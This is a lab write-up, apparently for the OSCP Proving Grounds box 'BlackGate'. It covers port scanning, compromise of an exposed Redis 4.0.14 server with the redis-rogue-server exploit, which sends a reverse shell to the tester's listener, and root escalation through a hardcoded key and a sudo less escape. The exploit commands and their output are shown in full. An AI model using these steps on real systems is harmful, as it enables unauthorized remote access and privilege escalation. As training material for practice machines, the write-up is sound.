 ```yaml
---
title: Blackgate 
date: 2022-10-19 12:00:00
categories: [OSCP,PG]
tags: [redis]
---
```


# BlackGate 

## Enumeration

### Autorecon

```bash
sudo env "PATH=$PATH" autorecon -v 192.168.160.176
```

```bash
[*] Scanning target 192.168.160.176
[*] [192.168.160.176/all-tcp-ports] Discovered open port tcp/22 on 192.168.160.176
[*] [192.168.160.176/all-tcp-ports] Discovered open port tcp/6379 on 192.168.160.176
[*] Identified service ssh on tcp/22 on 192.168.160.176
[*] Identified service redis on tcp/6379 on 192.168.160.176
[*] Finished scanning all targets in 3 minutes, 52 seconds!
```

### Redis
```bash
redis-cli -h 192.168.160.176
> info
redis_version:4.0.14
```

## Foothold

### Exploiting Redis

https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce

Exploit: https://github.com/n0b0dyCN/redis-rogue-server

```bash
./redis-rogue-server.py --rhost=192.168.160.176 --lhost=192.168.49.160 --lport=4242
```
```bash
[info] TARGET 192.168.160.176:6379
[info] SERVER 192.168.49.160:4242
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.49.160
Reverse server port: 4242
[info] Reverse shell payload sent.
[info] Check at 192.168.49.160:4242
[info] Unload module...
```

## Privelege Escalation

It seems we have the permissions to run /usr/local/bin/redis-status as root user

`sudo -l`
```bash
User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

Let's check what it does
`sudo /usr/local/bin/redis-status`
```bash
[*] Redis Uptime
Authorization Key: 123
Wrong Authorization Key!
Incident has been reported!
```

Running strings on the binary reveals the authorization key
`strings /usr/local/bin/redis-status`
```bash
...
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
...
```

Running the binary using `ClimbingParrotKickingDonkey321` as Auth Key will display the systemctl status output of "redis.service" in less

We just escape less as root using - https://gtfobins.github.io/gtfobins/less/#sudo
